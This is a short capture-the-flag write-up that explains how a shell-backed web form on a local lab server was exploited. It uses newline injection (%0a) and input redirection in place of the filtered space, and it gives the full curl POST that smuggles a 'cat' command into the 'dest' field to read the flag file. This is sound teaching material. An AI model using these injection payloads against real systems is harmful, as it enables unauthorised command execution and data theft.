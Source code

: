 # 🔑 Write-Up

* after a couple tries it becomes obvious that the input is passed to a shell but is more or less sanitized
* `%0a` (=> `\n`) isn't prohibited
* ` ` (space) is tho
* we can run `ls` in pwd but we can't check subfolders
* `find` to the rescue (if called without parameters it recursively lists directory starting from pwd)
* looks like the flag is in `./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`
* we can't just `cat` it
* after some quick googling we should be able to do `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

### 🚩 Flag

```
35c3_password_saltf1sh_30_seconds_max
```

obtained by running `curl -s 'http://localhost:8090/index.cgi' -X POST --data-raw "dest=%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag" | xidel -se "/html/body/pre" -`

